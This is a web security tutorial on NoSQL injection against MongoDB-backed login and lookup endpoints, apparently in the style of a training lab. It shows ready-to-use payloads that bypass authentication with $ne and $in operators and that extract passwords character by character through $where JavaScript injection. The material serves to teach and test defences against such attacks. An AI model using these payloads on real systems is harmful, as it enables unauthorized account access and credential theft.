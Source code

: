 ### Scenario
Consider a login request with a JSON body:
```
{"username":"wiener","password":"peter"}
```

### Detecting Operator Injection
1. **Test with Operators**:
   - Inject a MongoDB operator like `$ne`:
     ```
     {"username":{"$ne":"invalid"},"password":"peter"}
     ```
   - If the response changes (e.g., logs in as another user), the application may process operators.

2. **Bypass Authentication**:
   - Use:
     ```
     {"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
     ```
     This queries all users where `username` and `password` are not "invalid," potentially logging in as the first user in the collection.
   - To target specific accounts:
     ```
     {"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
     ```

3. **Switch to JSON for URL-based Inputs**:
   - If URL parameters (e.g., `username[$ne]=invalid`) fail, convert the request to POST with `Content-Type: application/json` and inject operators in the JSON body.

---

## Exploiting Syntax Injection to Extract Data

### Scenario
A user lookup request:
```
https://insecure-website.com/user/lookup?username=admin
```
This triggers:
```
{"$where":"this.username == 'admin'"}
```

### Extracting Data with JavaScript
- **Inject JavaScript via `$where`**:
  - Payload:
    ```
    admin' && this.password[0] == 'a' || 'a'=='b'
    ```
    This checks if the password starts with 'a'. Repeat for each character to extract the full password.
  - Alternatively, use `match()`:
    ```
    admin' && this.password.match(/\d/) || 'a'=='b'
    ```
    This checks if the password contains digits.
